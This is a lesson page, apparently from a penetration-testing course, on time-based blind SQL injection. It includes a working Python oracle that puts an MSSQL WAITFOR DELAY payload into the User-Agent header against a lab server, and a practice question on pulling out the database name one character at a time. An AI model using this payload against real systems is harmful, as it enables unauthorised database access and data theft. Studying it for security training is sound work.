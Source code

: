 ## Practice

In Python, we can script this like this. As this injection is `time-based`, you may have to play around with the value of `DELAY`. In above case, we used 1 second, but you may need more seconds depending on internet/VPN speeds. When it comes to `time-based` injections, the longer the delay is, the more accurate your results will be. For example, if you used a delay of `1 second`, and the server simply responded slowly on one request, you might think the injection caused the delay rather than the server just being slow. Of course, a longer delay will mean the dumping process takes longer, so this is a trade-off you need to consider.

```python
#!/usr/bin/python3

import requests
import time

# Define the length of time (in seconds) the server should
# wait if `q` is `true`
DELAY = 1

# Evalutes `q` on the server side and returns `true` or `false`
def oracle(q):
    start = time.time()
    r = requests.get(
        "http://SERVER_IP:8080/",
        headers={"User-Agent": f"';IF({q}) WAITFOR DELAY '0:0:{DELAY}'--"}
    )
    return time.time() - start > DELAY

# Verify that the oracle works by checking if the correct
# values are returned for queries `1=1` and `1=0`
assert oracle("1=1")
assert not oracle("1=0")

```

## Question

Use the oracle to figure out what the `fifth letter of db_name()` is (Hint: it is a lowercase letter). You can use the following query as a base:

```sql
(select substring(db_name(), 5, 1)) = 'a'

```


# Data Extraction

## Enumerating Database Name
